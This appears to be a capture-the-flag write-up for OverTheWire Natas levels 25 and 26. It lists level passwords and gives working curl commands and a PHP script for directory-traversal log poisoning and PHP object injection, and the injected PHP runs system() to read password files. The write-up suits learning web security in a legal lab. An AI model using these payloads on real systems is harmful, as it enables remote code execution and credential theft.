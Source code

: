 
### natas25

**Target:**

```
Username: natas25 Password: GHF6X7YwACaYYssHVY05cFq83hRktl4c
```

**Vuln:** directory traversal (simple opportunity to bypass poorly implemented filter) & lack of input validation

**Exploitation:**

```
# establish session & store session cookie
$ curl -c natas25-cookies -s -H "Authorization: Basic `echo -n 'natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c' | base64`" http://natas25.natas.labs.overthewire.org/index.php
$ SESSID=$(grep PHPSESSID natas25-cookies | awk '{print $NF}')

# send payload as 'User Agent' string and include file with the payload
$ curl -b natas25-cookies -s -H "Authorization: Basic `echo -n 'natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c' | base64`" http://natas25.natas.labs.overthewire.org/?lang=..././logs/natas25_$SESSID.log -A "<? system('cat /etc/natas_webpass/natas26'); ?>"
```

### natas26

**Target:**

```
http://natas26.natas.labs.overthewire.org/
oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
natas26
```

**Vulnerability:** insecure object deserialization (https://www.owasp.org/index.php/PHP_Object_Injection)

**Exploitation:**

```
# prepare & serialize instance of Logger class
$ cat > natas26.php <<EOF
<?php
class Logger
{
    private $logFile;
    private $initMsg;
    private $exitMsg;
    function __construct($file)
    {
        $this->initMsg= "";
        $this->exitMsg= "<? system('cat /etc/natas_webpass/natas27'); ?>";
        $this->logFile = "img/natas26.php";
    }
}
$logger = new Logger("");

echo serialize($logger);
?>
EOF

# set cookie and send it for deserialization:
$ COOKIE=$(php -f natas26.php | base64 -w0)
$ curl -b "drawing=$COOKIE" -s -H "Authorization: Basic `echo -n 'natas26:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T' | base64`" http://natas26.natas.labs.overthewire.org/

# retreive flag by executing code that was prepared in previous step:
```